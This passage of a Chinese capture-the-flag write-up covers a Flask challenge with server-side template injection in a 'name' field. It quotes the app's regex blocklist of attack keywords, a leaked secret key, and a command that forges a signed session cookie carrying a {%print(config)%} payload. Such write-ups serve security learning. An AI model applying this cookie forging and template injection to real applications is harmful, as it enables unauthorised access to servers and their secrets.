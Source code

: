 ![](./images/1698202874-image.png)

而且在源码中的这一段代码中存在name字段的SSTI注入

```
 if re.findall(
                r'__|{{|class|base|init|mro|subclasses|builtins|globals|flag|os|system|popen|eval|:|\+|request|cat|tac|base64|nl|hex|\\u|\\x|\.',
                name):
            abort(500)
        else:
            return render_template_string(
                '竟然给<h1>%s</h1>你找到了我的后门，你一定是网络安全大赛冠军吧！😝 <br> 那么 现在轮到你了!<br> 最后祝您玩得愉快!😁' % name)
```

secret\_key在config中，同样可以通过/app/config下载到

```
secret_key = "y0u_n3ver_k0nw_s3cret_key_1s_newst4r"
```

注意上面有正则过滤，过滤掉了 {{，就只有使用{%print%}的方式进行回显

```
D:\flask-session-cookie-manager-master>python flask_session_cookie_manager3.py encode -s y0u_n3ver_k0nw_s3cret_key_1s_newst4r -t {\"user\":\"{%print(config)%}\"}
eyJ1c2VyIjoieyVwcmludChjb25maWcpJX0ifQ.ZTiDuA.hYwhzv6Njj1fujXIlKPC_WmhTMI
```

先看看config，里面没有flag

![](./images/1698203050-image.png)
